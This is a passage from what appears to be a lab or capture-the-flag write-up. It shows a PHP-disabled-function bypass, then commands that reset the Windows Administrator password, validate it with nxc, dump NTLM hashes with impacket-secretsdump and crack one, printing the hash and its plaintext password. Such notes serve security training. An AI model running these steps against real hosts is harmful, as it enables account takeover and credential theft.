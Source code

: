 Running the publicly available exploit shows an error
![[Pasted image 20240819151756.png]]
`system()` has been disabled for security reasons. Shell commands can also be executed using `passthru()`

![[Pasted image 20240819152130.png]]
![[Pasted image 20240819152121.png]]

Changed `Administrator` passwrod
```cmd
net user Administrator Hacked@123
```

Verified the same using nxc
```bash
nxc smb 10.10.5.203 -u 'Administrator' -p 'Hacked@123'
```
![[Pasted image 20240819155744.png]]

Dumped NTLM hash for user `Lab`
```bash
impacket-secretsdump Administrator:'Hacked@123'@10.10.5.203 
```
![[Pasted image 20240819160012.png]]

Decrypted NTLM hash using https://crackstation.net
`30e87bf999828446a1c1209ddde4c450:googleplus`